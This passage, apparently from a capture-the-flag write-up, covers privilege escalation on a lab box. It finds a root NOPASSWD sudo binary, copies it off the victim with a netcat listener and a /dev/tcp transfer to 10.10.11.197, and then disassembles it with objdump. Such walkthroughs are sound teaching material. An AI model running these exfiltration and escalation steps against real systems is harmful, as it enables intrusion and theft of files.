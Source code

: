 #### Escalation
```shell
sudo -l                     # list allowed commands user can run
#--snip--#
User smorton may run the following commands on investigation:
 (root) NOPASSWD: /usr/bin/binary

sudo /usr/bin/binary
#--snip--#
Exiting... 

# download the binary for reverse engineering
nc -q 5 -lvnp 8005 < /usr/bin/binary         # on the victim's machine

tee -a binary < /dev/tcp/10.10.11.197/8005   # on the attacker's machine

# analysing the binary
file binary    # display the binary file details
#--snip--#
binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a703575c5c944bfcfea8a04f0aabaf0b4fa9f7cb, for GNU/Linux 3.2.0, not stripped

objdump -d -M att binary  | sed -n '/<_init>:\|<_start>:/,/^$/p'  # display the binary file assembly information
<<SNIP
0000000000001000 <_init>:
    1000:	f3 0f 1e fa          	endbr64 
    1004:	48 83 ec 08          	sub    $0x8,%rsp
    1008:	48 8b 05 d9 2f 00 00 	mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__>
    100f:	48 85 c0             	test   %rax,%rax
    1012:	74 02                	je     1016 <_init+0x16>
    1014:	ff d0                	call   *%rax
    1016:	48 83 c4 08          	add    $0x8,%rsp
    101a:	c3                   	ret    

0000000000001200 <_start>:
    1200:	f3 0f 1e fa          	endbr64 
    1204:	31 ed                	xor    %ebp,%ebp
    1206:	49 89 d1             	mov    %rdx,%r9
    1209:	5e                   	pop    %rsi
    120a:	48 89 e2             	mov    %rsp,%rdx
    120d:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
    1211:	50                   	push   %rax
    1212:	54                   	push   %rsp
    1213:	4c 8d 05 f6 04 00 00 	lea    0x4f6(%rip),%r8     # 1710 <__libc_csu_fini>
    121a:	48 8d 0d 7f 04 00 00 	lea    0x47f(%rip),%rcx    # 16a0 <__libc_csu_init>
    1221:	48 8d 3d 0b 02 00 00 	lea    0x20b(%rip),%rdi    # 1433 <main>
    1228:	ff 15 c2 2d 00 00    	call   *0x2dc2(%rip)       # 3ff0 <__libc_start_main@GLIBC_2.2.5>
    122e:	f4                   	hlt    
    122f:	90                   	nop

SNIP

objdump -d -j .text -M att binary | sed -n '/<main>:/,/^$/p'    # display details of the main block of the binary file
<<SNIP
0000000000001433 <main>:
    1433:	f3 0f 1e fa          	endbr64 
    1437:	55                   	push   %rbp
    1438:	48 89 e5             	mov    %rsp,%rbp
    143b:	48 83 ec 50          	sub    $0x50,%rsp
```